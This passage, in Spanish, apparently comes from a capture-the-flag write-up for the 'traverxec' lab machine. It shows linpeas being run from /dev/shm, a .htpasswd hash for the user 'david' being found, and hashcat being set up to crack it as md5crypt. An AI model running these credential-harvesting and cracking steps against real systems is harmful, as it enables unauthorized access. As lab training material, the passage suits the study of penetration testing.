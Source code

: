 ```shell
   450K .......... ......                                     100% 7.59M=1.4s

2021-10-17 18:33:30 (328 KB/s) - 'linpeas.sh' saved [477235/477235]

www-data@traverxec:/dev/shm$ chmod +x linpeas.sh
www-data@traverxec:/dev/shm$ ./linpeas.sh
```

## .htpasswd

Una de las cosas que descubrió fue un archivo .htpasswd el cual tiene credenciales:

```shell
╔══════════╣ Analyzing Htpasswd Files (limit 70)
-rw-r--r-- 1 root bin 41 Oct 25  2019 /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

## Crack .htpasswd

Necesitamos encontrar el módulo que necesitaremos usar para hashcat de esta manera pueda reconocer el hash, en base a la salida podemos ver que el tipo de hash es md5crypt y su número de modo es `500`:

```shell
❯ cat hash.txt
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: hash.txt
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ hashcat --example-hashes | grep '\$1\$' -B 2

MODE: 500
TYPE: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
HASH: $1$38652870$DUjsu4TTlTsOe/xxZ05uf/
--
MODE: 12200
TYPE: eCryptfs
HASH: $ecryptfs$0$1$4207883745556753$567daa975114206c
--
MODE: 16700
TYPE: FileVault 2
HASH: $fvde$1$16$84286044060108438487434858307513$20000$f1620ab93192112f0a23eea89b5d4df065661f974b704191
--
MODE: 22100
TYPE: BitLocker
HASH: $bitlocker$1$16$6f972989ddc209f1eccf07313a7266a2$1048576$12$3a33a8eaff5e6f81d907b591$60$316b0f6d4cb445fb056f0e3e0633c413526ff4481bbf588917b70a4e8f8075f5ceb45958a800b42cb7ff9b7f5e1
7c6145bf8561ea86f52d3592059fb
```
